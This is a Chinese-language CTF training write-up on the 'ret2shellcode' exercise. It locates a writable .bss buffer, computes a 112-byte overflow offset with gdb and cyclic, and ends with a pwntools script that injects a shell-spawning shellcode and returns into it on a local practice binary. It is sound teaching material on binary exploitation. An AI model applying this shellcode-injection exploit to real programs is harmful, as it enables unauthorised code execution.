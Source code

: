 ![本地执行打通.jpg](http://ww1.sinaimg.cn/large/006pBakIly1ghal9u7bj2j30li0apt9m.jpg)

###### ret2shellcode

例题wiki的ret2shellcode

![main.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gheqykj6m2j30pl08et9a.jpg)

可以看到，输入gets。不过这次没有溢出的漏洞，也没有后门函数没法直接跳转到system上。而`buf`的地址却在`bss`段上.

![buf.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gher053mn9j30xw02r0sy.jpg)

这样我们也知道了`buf_addr = 0x0804a080`只要`buf`可以读写，那么我们就可以自己写一段`shellcode`来执行`system()`

![vmmap.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gher2i4ixbj30t600sjrc.jpg)

通过`vmmap`我们看到了在程序`0x0804a000-0x0804b000`都可以读写，恰好`buf`的地址在这其中。接下来就是去寻找偏移了。

![保护.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gher4l9fuxj30jb04pjrj.jpg)

看保护什么都没开。进行调试找偏移。

![通过gdb算偏移.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gher5jfww3j30cj016glg.jpg)          

在`gdb`里面可以看到`esp`和`ebp`的地址。然后通过计算得到偏移

![计算出112.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gher6oxlhfj30ji05odg2.jpg)

获取偏移也可以利用`pwntools`自带的指令cyclic在返回报错那块能看到最后的返回函数是`0x62616164`,然后得到偏移

![填充.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1ghercecozoj30e402fmx2.jpg)

然后就是写`exp`了。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context(log_level = "debug",arch = "i386",os = "linux")

io = process("./ret2shellcode")

buf_addr = 0x0804A080

padding = 112
shellcode = asm(shellcraft.sh())#<-这里利用pwntools的asm()函数来写shellcode.
payload = flat([shellcode.ljust(padding,'A'),buf_addr])

io.recvuntil("No system for you this time !!!")
#gdb.attach(io,"b *0x80483d0\nc")
io.sendline(payload)

io.sendline("ls")
io.interactive()
```
